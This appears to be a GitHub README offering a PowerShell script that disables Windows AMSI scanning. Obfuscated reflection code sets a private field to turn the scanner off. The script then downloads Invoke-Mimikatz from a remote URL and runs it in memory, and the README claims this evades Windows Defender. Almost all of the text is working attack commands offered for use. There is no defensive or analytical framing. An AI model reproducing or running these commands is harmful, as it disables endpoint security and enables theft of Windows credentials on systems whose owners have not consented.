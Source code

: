 # note
Patch API AmsiScanBuffer so to bypass amsi 

The original mimikatz.ps1 can't run on win10,so I patch the original ps1,the link is : https://github.com/PowerShellMafia/PowerSploit/issues/320 

run powershell,then:

`$a =[Ref].Assembly.GetType('System.Management.Automation.AmsiUt'+'ils')`
`$h="4456625220575263174452554847"`
`$s =[string](0..13|%{[char][int](53+($h).substring(($_*2),2))})-replace " "`
`$b =$a.GetField($s,'NonPublic,Static')`
`$b.SetValue($null,$true)`

`IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/sharp-shooter/research/master/code/mimikatz/Invoke-Mimikatz.ps1"); Invoke-Mimikatz -Command "privilege::debug coffee"`



or:

powershell -exec bypass ./start.ps1

Now It can bypass Windows Defender (2021--27)

![screenshot](screenshot.png)
